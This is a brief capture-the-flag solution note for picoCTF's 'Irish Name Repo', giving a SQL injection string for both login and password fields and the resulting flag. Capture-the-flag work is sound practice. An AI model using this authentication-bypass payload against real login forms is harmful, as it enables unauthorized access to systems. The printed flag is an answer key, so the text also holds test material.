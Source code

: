 # Irish Name Repo

Login: `'or'1'='1`

Password: `'or'1'='1`

Flag: `picoCTF{con4n_r3411y_1snt_1r1sh_9cbc118f}`